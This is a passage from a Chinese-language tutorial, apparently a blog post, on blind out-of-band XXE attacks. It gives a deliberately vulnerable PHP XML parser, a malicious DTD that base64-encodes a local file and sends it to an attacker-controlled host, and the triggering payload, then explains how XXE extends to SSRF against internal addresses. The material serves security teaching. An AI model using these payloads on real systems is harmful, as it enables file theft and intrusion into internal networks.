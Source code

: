 >这里提一个点，如果是在 java 中 还有一个协议能代替 file 协议 ，那就是 netdoc ，使用方法我会在后面的分析 微信的 XXE
的时候顺带演示

新的问题出现

但是，你想想也知道，本身人家服务器上的 XML 就不是输出用的，一般都是用于配置或者在某些极端情况下利用其他漏洞能恰好实例化解析 XML 的类，因此我们想要现实中利用这个漏洞就必须找到一个不依靠其回显的方法------外带
新的解决方法

想要外带就必须能发起请求，那么什么地方能发起请求呢？ 很明显就是我们的外部实体定义的时候，其实光发起请求还不行，我们还得能把我们的数据传出去，而我们的数据本身也是一个对外的请求，也就是说，我们需要在请求中引用另一次请求的结果，分析下来只有我们的参数实体能做到了(并且根据规范，我们必须在一个 DTD 文件中才能完成“请求中引用另一次请求的结果”的要求)
#实验二：无回显读取本地敏感文件(Blind OOB XXE)

xml.php

```
<?php

libxml_disable_entity_loader (false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
?>
```
test.dtd

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///D:/test.txt">
<!ENTITY % int "<!ENTITY % send SYSTEM 'http://ip:9999?p=%file;'>">
```

payload：
```
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://ip/test.dtd">
%remote;%int;%send;
]>
```
![](https://upload-images.jianshu.io/upload_images/15378294-7f2dd92304f00d07.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

结果如下：
![](https://upload-images.jianshu.io/upload_images/15378294-e5b3061b3d0de95c.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

我们清楚第看到服务器端接收到了我们用 base64 编码后的敏感文件信息(编码也是为了不破坏原本的XML语法)，不编码会报错。

整个调用过程：

我们从 payload 中能看到 连续调用了三个参数实体 %remote;%int;%send;，这就是我们的利用顺序，%remote 先调用，调用后请求远程服务器上的 test.dtd ，有点类似于将 test.dtd 包含进来，然后 %int 调用 test.dtd 中的 %file, %file 就会去获取服务器上面的敏感文件，然后将 %file 的结果填入到 %send 以后(因为实体的值中不能有 %, 所以将其转成html实体编码 &#37;)，我们再调用 %send; 把我们的读取到的数据发送到我们的远程 vps 上，这样就实现了外带数据的效果，完美的解决了 XXE 无回显的问题。
新的思考：

我们刚刚都只是做了一件事，那就是通过 file 协议读取本地文件，或者是通过 http 协议发出请求，熟悉 SSRF 的童鞋应该很快反应过来，这其实非常类似于 SSRF ，因为他们都能从服务器向另一台服务器发起请求，那么我们如果将远程服务器的地址换成某个内网的地址，（比如 192.168.0.10:8080）是不是也能实现 SSRF 同样的效果呢？没错，XXE 其实也是一种 SSRF 的攻击手法，因为 SSRF 其实只是一种攻击模式，利用这种攻击模式我们能使用很多的协议以及漏洞进行攻击。
新的利用：
